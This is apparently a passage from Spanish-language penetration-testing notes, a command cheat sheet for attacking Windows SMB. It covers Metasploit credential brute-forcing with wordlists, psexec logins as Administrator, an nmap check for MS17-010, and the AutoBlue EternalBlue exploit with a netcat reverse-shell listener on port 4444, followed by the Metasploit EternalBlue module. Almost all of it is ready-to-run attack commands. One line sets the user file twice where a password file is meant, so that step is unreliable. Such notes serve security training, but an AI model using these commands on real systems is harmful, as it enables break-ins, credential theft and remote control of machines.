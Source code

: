 ```bash
$ msfconsole
msf6> use auxiliary/scanner/smb/smb_login
msf6> set user_file /usr/share/metasploit-framework/data/wordlist/common_users.txt
msf6> set user_file /usr/share/metasploit-framework/data/wordlist/unix_passwords.txt
msf6> set rhost <IP-TARGET>
msf6> set stop_on_success true
msf6> set verbose false
msf6> run
```

```bash
$ psexec.py Administrator@<IP-TARGET> cmd.exe
```

Usando solo _mestasploit_

```bash
msf6> use exploit/windows/smb/psexec
msf6> set rhost <IP-TARGET>
msf6> set SMBUser Administrator
msf6> set SMBPass quertyuiop
msf6> run
```

### Windows (MS17-010 / CVE-2017-0144) EternalBlue SMB

Podemos comprobar si la máquina víctima es vulnerable a _MS17-010_ usando el script de nmap _smb-vuln-ms17-010_.

```bash
$ nmap -sV -p 445 --script smb-vuln-ms17-010 <IP-TARGET>
```

https://github.com/3ndG4me/AutoBlue-MS17-010

```bash
$ cd shellcode
$ chmod +x shell_prep.sh
$ ./shell_prep.sh
$ # En este punto se configura el puerto y host al cual se enviara la revershell
$ cd ..
$ python eternalblue_exploit7.py <IP-TARGET> shellcode/sc_x64.bin
```

```bash
$ nc -nlvp 4444
```

Usando solo _mestasploit_

```bash
$ msfconsole
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6> set RHOSTS <IP-TARGET>
msf6> exploit
```

### RDP
